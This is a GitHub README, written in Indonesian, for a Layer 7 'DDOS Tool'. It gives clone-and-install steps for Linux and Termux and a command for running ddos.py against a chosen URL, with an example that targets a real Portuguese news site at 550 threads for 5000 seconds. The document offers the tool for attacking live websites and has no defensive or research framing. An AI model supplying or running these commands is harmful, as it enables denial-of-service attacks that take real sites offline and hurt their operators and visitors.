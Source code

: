 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
 
</div>


</p>


</p>

# 💻 Instalasi :




 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
$ sudo apt update
$ sudo apt install python3 python3-pip git -y
$ git clone https://github.com/Skyw4lkeR77/SUPER_DDOS
$ cd SUPER_DDOS/
$ pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
$ pkg update
$ pkg install python3 python3-pip git -y
$ git clone https://github.com/Skyw4lkeR77/SUPER_DDOS
$ cd SUPER_DDOS/
$ pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan :
Perintah untuk dapat menjalankan tool adalah sebagai berikut :

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Contoh :  

```
python3 ddos.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
